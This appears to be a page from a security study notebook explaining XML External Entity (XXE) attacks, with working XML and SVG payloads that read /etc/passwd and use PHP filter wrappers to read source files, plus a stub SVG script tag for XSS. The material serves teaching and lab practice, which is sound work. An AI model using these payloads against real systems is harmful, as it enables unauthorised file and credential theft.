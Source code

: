 # XML External Entity (XXE)

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![mustacchio](../../../../_badges/thm-p/mustacchio.svg)](https://tryhackme.com/room/mustacchio)
[![xxe_injection](../../../../_badges/poat/xxe_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

<div class="row row-cols-lg-2"><div>

An XML External Entity (XXE) is an attack exploiting [XML](/programming-languages/others/data/xml.md) parsers used by applications. We create a custom [DTD](/programming-languages/others/data/xml.md#document-type-definition-dtd-) doing something malicious.

* Access and steal files <small>(passwd, id_rsa, etc.)</small>
* Perform a DDoS attack
* Perform a [SSRF attack](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md)
* Perform a [XSS](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md)

There are two kind of XXE

* **In-band XXE**: same channel to attack and fetch results
* **Out-band/Blind XXE**: different channels to attack and fetch results
</div><div>

For instance, we define an entity called `poc` in the DTD that is defined by the content of `/etc/passwd`. The parsed XML will have the content of the file inside the root element.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY poc SYSTEM 'file:///etc/passwd']>
<root>&poc;</root>
```

📚 As a reminder, [SVG](https://en.wikipedia.org/wiki/SVG) are XML files too.
</div></div>

<hr class="sep-both">

## XXE XML Payloads

<div class="row row-cols-lg-2"><div>

#### Stealing files

We can use the `file://` protocol as shown in the poc.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd']>
<root>&xxe;</root>
```
</div><div>
</div></div>

<hr class="sep-both">

## XXE SVG Payloads

<div class="row row-cols-lg-2"><div>

#### Stealing files

We can use the `file://` protocol as shown in the poc. For a SVG, we can use the following code <small>(assuming `attr` is displayed)</small>:

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```

We can use [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md) to read PHP and non PHP files.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```
</div><div>

#### XSS attack

If the SVG is displayed, we may be able to perform a XSS attack.

```xml!
<svg width="100" height="100" xmlns="http://www.w3.org/2000/svg">
    <script type="text/javascript">/* ... */</script>
</svg>
```
</div></div>